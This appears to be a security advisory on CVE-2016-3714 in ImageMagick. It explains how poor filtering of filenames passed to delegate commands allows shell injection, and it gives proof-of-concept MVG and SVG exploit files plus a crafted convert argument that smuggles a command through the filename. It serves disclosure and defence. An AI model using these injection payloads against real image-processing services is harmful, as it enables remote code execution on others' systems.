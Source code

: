 ### Detailed Vulnerability Information
ImageMagick: Multiple vulnerabilities in image decoder
**CVE-2016-3714 -** Insufficient shell characters filtering leads to(potentially remote) code execution
Insufficient filtering for filename passed to delegate's command allows remote code execution during conversion of several file formats.

ImageMagick allows to process files with external libraries. This feature is called 'delegate'. It is implemented as a system() with command string ('command') from the config file delegates.xml with actual value for different params (input/output filenames etc). Due to insufficient %M param filtering it is possible to conduct shell command injection. One of the default delegate's command is used to handle https requests:
```
"wget" -q -O "%o" "https:%M"
```

where %M is the actual link from the input. It is possible to pass the value like
```
`https://example.com";|ls "-la`
```
and execute unexpected 'ls -la'. (wget or curl should be installed)
```
$ convert 'https://example.com";|ls "-la' out.png
total 32
drwxr-xr-x 6 user group 204 Apr 29 23:08 .
drwxr-xr-x+ 232 user group 7888 Apr 30 10:37 ..
```
The most dangerous part is ImageMagick supports several formats like svg, mvg (thanks to Stewie for his research of this file format and idea of the local file read vulnerability in ImageMagick, see below), maybe some others - which allow to include external files from any supported protocol including delegates. As a result, any service, which uses ImageMagick to process user supplied images and uses default delegates.xml / policy.xml, may be vulnerable to this issue.

**exploit.mvg**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

**exploit.svg**
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1"
xmlns="http://www.w3.org/2000/svg"; xmlns:xlink=
"http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la"
x="0" y="0" height="640px" width="480px"/>
</svg>
```

**Example execution**
```
$ convert exploit.mvg out.png
total 32
drwxr-xr-x 6 user group 204 Apr 29 23:08 .
drwxr-xr-x+ 232 user group 7888 Apr 30 10:37 ..
```
